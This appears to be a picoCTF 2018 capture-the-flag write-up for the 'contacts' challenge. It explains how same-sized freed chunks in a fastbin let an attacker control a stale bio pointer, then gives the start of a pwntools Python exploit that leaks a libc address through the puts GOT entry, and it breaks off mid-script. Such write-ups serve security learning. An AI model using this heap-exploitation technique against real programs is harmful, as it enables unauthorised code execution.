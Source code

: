In case we free a contact with a bio, the deletion order will be as follows:  
free(contact->name)  
free(contact->bio)  
free(contact)  

What if all of them had the same size (0x10)?  

We will end up with a fastbin list of size 0x20 (0x10 allocated + headers) that looks like that:  

(head) contact ---> bio ---> name ---> (NULL or next chunk, doesn't really matter)  

If we follow this kind of free with an allocation of 2 contacts (The first contact has a name of length up to 0x10. We mustn't do anything else between the creation of the 2 contacts).  

create_contact starts by allocating our contact struct and then our name.  

The pointers returned from malloc will be as follows:  

new_contact = old_contact  
new_name = old_bio  

Our 0x20 fastbin list now looks like this:  

(head) name ---> (NULL or next chunk, doesn't really matter)  

Calling create_contact will return the previous name as our contact struct.  

We can control the bio field!!  

First, we are going to use it in order to leak a libc address.  

```python
#! /usr/bin/python

from pwn import *
import sys

executable = './contacts'
remote_ip = '2018shell1.picoctf.com'
port = 59572

contacts_count = 0

def exploit(is_remote):
    global r, contacts_count
    
    if is_remote:
        r = remote(remote_ip, port)
        """ Identified the provided libc."""
        libc = ELF('/home/ubuntu/libc-database/db/libc6_2.23-0ubuntu10_amd64.so')
        print 'remote'
    else:
        r = process(executable)
        libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
        print 'local'
    puts_got_entry = 0x602020
    
    """ The following block does the following: 
            1. Create a new chunk with name the size of contact struct (0x10) and set its second qword to puts_got_entry.
            2. Set it's bio to a new chunk with the same size as the contact struct.
            3. Delete it. Free order is: name, bio, chunk
            4. Add a new chunk with name the size of the contact struct. new_chunk = previous_chunk, new_name = previous_bio.
            5. Add a new chunk. new_chunk = previous_name.
            6. The bio field is not zeroed so we will have the previous value stored in it as the current value."""
    first_leak_name = 'LeakLibc' + p64(puts_got_entry)[:-1] 
    add_contact(first_leak_name)
    set_bio(first_leak_name, '\x00'*15)
```